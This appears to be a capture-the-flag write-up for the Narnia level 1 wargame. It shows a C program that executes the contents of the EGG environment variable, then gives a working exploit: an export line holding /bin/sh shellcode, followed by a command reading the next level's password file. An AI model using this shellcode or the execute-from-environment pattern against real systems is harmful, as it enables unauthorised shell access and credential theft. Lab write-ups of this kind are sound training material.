 # narnia1

**Challenge Description:** This challenge requires the attacker to take
advantage of the *EGG* environment variable. The source code takes whatever is
stored in the environment variable and executes it. This can be used to spawn a
shell!


```.c
//narnia1.c

#include <stdio.h>

int main(){
    int (*ret)();

    if(getenv("EGG")==NULL){
        printf("Give me something to execute at the env-variable EGG\n");
        exit(1);
    }

    printf("Trying to execute EGG!\n");
    ret = getenv("EGG");
    ret();

    return 0;
}
```

The code blindly executes whatever is stored in the EGG environment variable. We
can take advanatage of this to spawn a shell.

```
export EGG=$(python -c 'print "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80"')
```

Lastly, print out the flag with ```cat /etc/narnia_pass/narnia2```.
